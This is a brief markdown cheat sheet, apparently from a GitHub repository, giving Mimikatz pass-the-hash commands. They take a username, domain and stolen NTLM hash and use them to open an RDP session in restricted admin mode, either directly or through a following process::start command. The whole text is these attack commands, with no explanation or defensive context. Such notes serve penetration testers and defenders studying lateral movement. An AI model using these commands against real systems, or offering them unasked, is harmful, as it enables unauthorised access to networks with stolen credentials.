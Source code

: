 # Mimikatz

Pass the hash and run RDP remote session 

`mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash> /run:"mstsc /v:<IP> /restrictedadmin"`

Pass the hash then execute process

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash>

mimikatz # process::start "mstsc /v:<IP> /restrictedadmin"
```
